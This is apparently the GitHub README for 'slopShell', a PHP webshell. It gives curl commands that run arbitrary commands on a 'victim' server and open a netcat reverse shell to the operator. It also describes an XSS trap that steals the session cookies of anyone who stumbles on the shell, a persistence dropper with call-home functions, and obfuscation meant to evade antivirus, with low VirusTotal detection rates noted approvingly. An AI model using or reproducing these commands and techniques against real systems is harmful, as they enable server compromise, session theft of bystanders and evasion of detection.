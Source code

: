 [![GitHub forks](https://img.shields.io/github/forks/oldkingcone/slopShell?style=plastic)](https://github.com/oldkingcone/slopShell/network)
[![GitHub stars](https://img.shields.io/github/stars/oldkingcone/slopShell?style=plastic)](https://github.com/oldkingcone/slopShell/stargazers)
[![GitHub watchers](https://img.shields.io/github/watchers/oldkingcone/slopShell?style=plastic)](https://github.com/oldkingcone/slopShell/watchers)
[![GitHub issues](https://img.shields.io/github/issues/oldkingcone/slopShell?style=plastic)](https://github.com/oldkingcone/slopShell/issues)
[![language](https://img.shields.io/badge/language-PHP-blue?style=plastic)](https://www.php.net)
[![language](https://img.shields.io/badge/language-Powershell-blue?style=plastic)](https://docs.microsoft.com/en-us/powershell/)
[![language](https://img.shields.io/badge/language-Bash-yellow?style=plastic)](https://www.gnu.org/software/bash/)
[![BuyMeACoffee](https://img.shields.io/badge/BuyMeACoffee-Or%20Book-yellowgreen?style=plastic)](https://www.buymeacoffee.com/oldkingcone)


# slopShell
php webshell

Since I derped, and forgot to talk about usage. Here goes.

For this shell to work, you need 2 things, a victim that allows php file upload(yourself, in an educational environment) and a way to send http requests to this webshell. 

Basic Usage Video(Hosted on Youtube):

[![Video Showing Usage](https://i.ytimg.com/vi_webp/FywNszpfDJo/maxresdefault.webp)](https://www.youtube.com/watch?v=FywNszpfDJo)

Current VT Detection ratio: 2/59

[![Virus Total](https://www.virustotal.com/gui/images/VT_search_hash.svg)](https://www.virustotal.com/gui/file/8b792d74945ebf3d22828eaa22dec1d3df535247c6b741f003576e2be57195b9/detection)


Current VT Detection ratio (obfuscated version): 1/59
With the only detection marking it as suspicious.

[![Virus Total](https://www.virustotal.com/gui/images/VT_search_hash.svg)](https://www.virustotal.com/gui/file/858a2e7cf51f37b66392d47c8573eadb2aec4cdcc9e162e1df5cd08d44e19bef/detection)

---
# Setup

Ok, so here we go folks, there was an itch I had to write something in PHP so this is it. This webshell has a few bells and whistles, and more are added everyday. You will need a pgsql server running that you control. However you implement that is on you.

Debian: `apt install -y postgresql php php-pear && python -m pip install proxybroker --user`

RHEL Systems: `dnf -y -b install postgresql-server postgresql php php-pear && python -m pip install proxybroker --user`

WIN: `install the php msi, and make sure you have an active postgresql server that you can connect to running somewhere. figure it out.`


Once you have these set up properly and can confirm that they are running. A command I would encourge using is with `pg_ctl` you can create the DB that way, or at least init it and start it. Then all the db queries will work fine.

---
## How to interact.

Firstly, you need to choose a valid User-Agent to use, this is kind of like a first layer of protection against your webshell being accidentally stumbled upon by anyone but you. I went with sp/1.1 as its a non typical user-agent used. This can cause red flags in a pentest, and your access or script to be blocked or deleted. So, be smart about it. Code obfuscation wouldnt hurt, I did not add that in because thats on you to decide. To use the shell, there are some presets to aid you in your pen test and traversal of the machine. I did not add much for windows, because I do not like developing for windows. If you have routines or tricks added or know about, feel free to submit an issue with your suggestion and ill add it. An example of how to use this webshell with curl:

`curl https://victim/slop.php?qs=cqP -H "User-Agent: sp/1.1" -v`

or to execute custom commands:

`curl https://victim/slop.php --data "commander=id" -H "User-Agent: sp/1.1" -v`

Or to attempt to establish a reverse shell to your machine:

`curl https://victim/slop.php --data "rcom=1&mthd=nc&rhost=&rport=&shell=sh" -H "User-Agent: sp/1.1" -v`

- mthd = the method you want to use to establish the reverse shell, this is predefined in the `$comma` array, feel free to add to it, optional, if it is null, the script will choose for you.
- rhost = you, now this and the rport are not required, as it defaults to using netcat with the ip address in the `$_SERVER["REMOTE_ADDR"]` php env variable.
- rport = your listener port, the default was set to 1634, just because.
- shell = the type of system shell you want to have. I know bash isnt standard on all systems, but thats why its nice for you to do some system recon before you try to execute this command.

Here is the better part of this shell. If someone happens upon this shell without supplying the exact user agent string specified in the script, this shell will produce a 500 error with a fake error page then it will attempt some XSS to steal that users session information and sends it back to a handler script on your server/system. This will then attempt to store the information in a running log file. If it is unable to do so, well the backup is your logs. Once the XSS has completed, this shell will redirect the user back to the root(/) of the webserver. So, youll steal sessions if someone finds this, can even beef it up to execute commands on the server on behalf of the user, or drop a reverse shell on the users browser through Beef or another method. The possibilities are legit endless.

---
## Images of use cases

In browser, navigated to without the proper user-agent string. (1st level of auth)
![](https://github.com/oldkingcone/slopShell/blob/master/in_browser.jpeg?raw=true)

Use in the terminal, which is how this was designed to work, using curl with the -vH "User-Agent: sp1.1" switches.
![](https://github.com/oldkingcone/slopShell/blob/master/use_in_terminal.jpeg?raw=true)

Obfuscated script example: 
![](https://github.com/oldkingcone/slopShell/blob/master/img.png?raw=true)


---

## Interacting through the client script

Once the client script is complete, you as the operator will not need to interact though curl to utilize this shell. There will be a client script that you can use to execute all commands/control over. In addition to this client script, there is a dropper. This dropper will ensure the script is run at start up even if the website is removed. Including some call home functions, obfuscation if it is requested on a level from 1 to 3, with 3 being the highest as every function will be rot ciphered and then encoded in base64 within the whole file being base64 encoded with a random name assigned to the file itself. This can help avoid signature detection. 


---
## Encryption

Once the encryption routine is fully worked out, the dropper script will be encrypted, and highly obfuscated.
Example output:
```
Base64 decoded: also a test 123
Re-Encoded: YWxzbyBhIHRlc3QgMTIz
Key: 4212bd1ff1d366f23ca77021706a9a29cb824b45f82ae312bcf220de68c76760289f1d5550aa341002f1cfa9831e871e
Key Length: 96
Encryption Result:
Array
(
    [original] => also a test 123
    [key] => 4212bd1ff1d366f23ca77021706a9a29cb824b45f82ae312bcf220de68c76760289f1d5550aa341002f1cfa9831e871e
    [encrypted] => meIHs/y6_U7U~7(M
    [base64_Encoded] => bWVJSAAdcw4veTZfVQU3VX43KE0=
)
Decrypt Test:
Array
(
    [key] => 4212bd1ff1d366f23ca77021706a9a29cb824b45f82ae312bcf220de68c76760289f1d5550aa341002f1cfa9831e871e
    [encrypted] => meIHs/y6_U7U~7(M
    [decrypted] => YWxzbyBhIHRlc3QgMTIz
    [base64_decoded] => also a test 123
    [original] => also a test 123
)
```

---
## Additional

This was going to remain private. But I decided otherwise.

Do not abuse this shell, and get a signature attached to it, this is quite stealthy right now since its brand new.

I as the maintainer, am in no way responsible for the misuse of this product. This was published for legitmate penetration testing/red teaming purposes, and/or for educational value.  Know the applicable laws in your country of residence before using this script, and do not break the law whilst using this. Thank you and have a nice day.



If you have enjoyed this script, its is obligatory that you follow me and throw a star on this repo... because future editions will have more features(or bugs) depending on how you look at it.

